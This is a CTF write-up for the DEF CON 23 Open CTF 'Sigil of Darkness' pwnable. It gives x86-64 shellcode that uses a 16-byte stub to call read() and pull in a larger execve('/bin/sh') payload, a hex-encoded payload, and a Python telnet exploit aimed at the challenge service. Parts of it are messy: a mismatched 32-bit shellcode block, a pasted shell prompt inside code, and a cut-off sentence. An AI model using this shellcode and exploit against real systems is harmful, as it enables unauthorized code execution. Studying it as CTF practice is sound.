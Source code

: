 # CTF write-up: defcon23 open CTF No.08
Challenge | Tags | Point | Author
--- | --- | ---
Runic Power | binary,exploitation,pwnable | 200 | soen

## English

### Challenge description
Sigil of Darkness 200 --- simplicity is beauty
Service: 10.0.66.72:6611 Binary: 172.16.18.20/sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d 

### write-up
(in progress)

64bit arbitrary code execution under 16-byte size limitation:

  It is possible to get a larger space to write shell code if you call the "read" function from the plt to read in more information from stdin.

The asm in shell.S can be compiled with the following command:
```
$ rasm2 -b 64 -a x86 -f shell.S -B > fileinput
$ ./sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d < fileinput
```
NOTE: Even though you spawn a shell, it will die immediately because the input has ended from fileinput.  Ideally, you should run it like this:

```
$ ( cat fileinput ; cat - ) | ./sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d
ls /
bin boot dev etc home lib lib64 lost+found mnt opt proc root run sbin srv sys tmp usr var
```

shell.S:
```
# The following code is the shell code to call read().

#xor edi,edi # first argument of read(), stdin. should already be set.
#mov ... # second argument of read(), buffer to read to. should already be set.
mov edx,0xff # last argument of read(), read in 256 bytes
mov ebx,0x004004a0 # call read
call ebx

# The following nops will be read in by read(), and overwrite the shell code in
# the beginning of this file.

nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop

# The following is code to spawn a shell on x86_64.

xor rax, rax
xor rdx, rdx
mov rbx, 0x68732f6e69622f2f
shr rbx, 0x8
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi, rsp
mov al, 0x3b
syscall
```

@cdepillabout: confirmed! clever! -- alterakey

exploit.py:
```
import struct
import sys
import telnetlib

def exploit():
  return "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f" + "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd" + "\x80"
    
if __name__ == '__main__':
  t = telnetlib.Telnet('10.0.66.71', 6698)
  print("[+] exploit")
  t.write(exploit())
  t.interact()
jb-mbpr13:octf jetbee$ cat exploit.py
import telnetlib
import binascii

def exploit():
  return binascii.unhexlify('baff000000bba0044000ffd3909090909090909090909090909090904831c04831d248bb2f2f62696e2f736848c1eb08534889e750574889e6c6c03b0f05')

if __name__ == '__main__':
  t = telnetlib.Telnet('10.0.66.72', 6611)
  t.write(exploit())
  t.interact()

```

Response to note: you can confirm shell spawn with strace(1) as following:
```
$ rasm2 -b 64 -B -f shell.S | strace ./sigil_of_darkness-f797aea901a1e5c71ea15304e72b892d
...
read(0, "\272\377\0\0\0\273\240\4@\0\377\323\220\220\220\220", 16) = 16
read(0, "\220\220\220\220\220\220\220\220\220\220\220\220H1\300H1\322H\273//bin/shH\301\353\10"..., 255) = 46
execve("/bin/sh", ["/bin/sh"], [/* 0 vars */]) = 0 <-- !!!!!!!!!!
```

Failed due to intransparency of 

The flag is:
```
So_that_might_have_given10s_moreFFRT
```
